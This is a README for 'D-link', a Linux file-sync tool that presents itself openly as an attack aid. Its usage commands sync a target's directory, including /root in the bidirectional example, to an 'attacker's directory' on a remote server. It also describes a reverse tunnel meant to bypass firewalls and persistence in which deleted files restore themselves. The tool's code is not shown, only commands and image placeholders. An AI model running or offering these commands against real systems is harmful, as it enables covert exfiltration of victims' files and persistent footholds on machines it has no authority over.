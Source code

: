 # D-link

D-link is a lightweight Linux file synchronization tool written in C++.
1. Supports reverse file synchronization operations.
2. Directory monitoring, real-time updates.
3. Access control: Clients are only allowed to automatically upload and delete files, and cannot download sensitive files from the server. Even if synchronized files are deleted from the server, clients will automatically restore them.
4. Client-side deletion of server files.
5. Persistence: Can be used with Tyrant or S-Clustr to form a powerful self-healing network cluster.

# Usage

```
$ ./dlink -h
```

![alt text](pic/image.png)

## D-link Forward Tunnel (Client to Server File Synchronization)

Example: (Real-time synchronization of the target directory to the attacker’s directory)

Server:

![alt text](pic/image-2.png)

```
$ ./dlink server --port <LOCAL-PORT> --path <PATH>
```

![alt text](pic/image-3.png)

Client:

![alt text](pic/image-1.png)

```
$ ./dlink client --endpoint <IP:PORT> --path <PATH>
```

![alt text](pic/image-4.png)

Server:

![alt text](pic/image-5.png)

## D-link Reverse Tunnel (Server to Client File Synchronization)

PS: Typically used to bypass firewalls and prevent data interception.

Example: (Real-time synchronization of the attacker’s directory to the target directory)

Server:

![alt text](pic/image-6.png)

```
$ ./dlink server --port <LOCAL-PORT> --path <PATH> --reverse
```

![alt text](pic/image-7.png)

```
$ ./dlink client --endpoint <IP:PORT> --path <PATH> --reverse
```

![alt text](pic/image-8.png)

![alt text](pic/image-9.png)

# Bidirectional synchronization

Server:

```
$ ./dlink server --port 10098 --path /tmp/root &
$ ./dlink server --port 10099 --path /tmp/root --reverse
```

Client:

```
$ ./dlink client --endpoint "<SERVER>:10098" --path /root &
$ ./dlink client --endpoint "<SERVER>:10099" --path /root --reverse
```

